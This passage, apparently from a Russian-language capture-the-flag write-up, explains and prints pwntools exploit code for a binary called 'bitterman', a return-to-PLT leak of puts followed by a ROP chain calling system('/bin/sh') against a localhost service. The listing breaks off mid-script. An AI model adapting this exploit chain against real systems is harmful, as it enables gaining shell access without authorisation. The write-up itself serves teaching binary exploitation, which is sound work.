 ```python
r.recvuntil('Please input the length of your message:')
r.sendline('31337')
r.recvuntil('Please enter your text:')
r.clean()
raw_input('[?] Отправляю пейлоад2?')
r.sendline(payload2)
r.recvuntil('Thanks!')
r.clean()

r.interactive()
```

Остановимся на самых интересных моментах.

```python
libc.address = leaked_puts - libc.symbols['puts']
```

Здесь я присваиваю объекту libc реальный адрес загрузки библиотеки (полученный в первой фазе), чтобы pwntools знал, где искать либу.

```python
rop2.system(next(libc.search('/bin/sh\x00')))
```

А после создаю второй объект класса `ROP` и наполняю его снова тремя гаджетами: инструкции `pop rdi; ret`, адрес строки `/bin/sh` и вызов библиотечной функции `system`. Для этого мне нужно всего одна строка.

Вот полный код экслоита.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# Использование: python exploit.py [DEBUG]

from pwn import *

context.arch      = 'amd64'
context.os        = 'linux'
context.endian    = 'little'
context.word_size = 64
context.terminal  = ['tmux', 'new-window']

# ----------------- Фаза 1. Return-to-PLT ------------------

bitterman = ELF('./bitterman')
rop = ROP(bitterman)

log.info('Фаза 1. Return-to-PLT')
rop.puts(bitterman.got['puts'])
log.success('Найдены адреса puts (PLT & GOT)')
rop.call(bitterman.symbols['main'])
log.success('Найден адрес main')
log.info('ROP:\n' + rop.dump())

junk = 'A' * (cyclic_find(unhex('6261616f')[::-1]) - 4)  # 'A' * 152
log.success('Вычислено смещение последовательности де Брёйна: %s' % len(junk))

payload = junk + str(rop)

r = remote('localhost', '10103')
#p = process('./bitterman')

"""
gdb.attach(p, '''
```

[//]: # (2019-10-23)